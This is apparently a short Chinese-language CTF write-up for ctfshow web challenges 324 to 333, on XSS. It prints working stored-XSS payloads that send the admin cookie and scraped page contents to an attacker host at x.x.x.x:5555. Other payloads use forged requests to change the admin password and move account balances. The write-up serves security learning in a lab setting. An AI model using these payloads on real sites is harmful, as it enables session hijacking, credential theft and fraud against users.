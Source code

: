 ##Web324
同322

##Web325
同322

##Web326
同322

##Web327
同322

##Web328

	<script>window.location.href='http://x.x.x.x:5555/xs/xs.php?1='+document.cookie</script>

获得管理员cookie替换即可在用户管理界面看到flag

##Webb29
用上面的payload也能拿到cookie，但是拿到之后就失效了。但是可以写脚本读取页面内容，正好前段时间javaweb接触了点前端的东西：

flag在密码列第一行，查看元素：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211008000223.png)

属于类laytable-cell-1-0-1

	<script>$('.laytable-cell-1-0-1').each(function(index,flag){if(flag.innerHTML.indexOf('ctf'+'show')>-1){window.location.href='http://x.x.x.x:5555/xs/xs.php?1='+flag.innerHTML;}});</script>

ctfshow拆开是防止读到自己。拿到admin密码登录。

##Web330

	<script>window.location.href='http://127.0.0.1/api/change.php?p=111';</script>

改管理员密码
也可以读取页面

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20211008111805.png)

##Web331

	<script>$.post("http://127.0.0.1/api/change.php",{p:111},"json");</script>

##Web332
逻辑漏洞 转-9999

##Web333

	<script>$.post("http://127.0.0.1/api/amount.php",{'u':'111111' ,'a':10000},"json");</script>

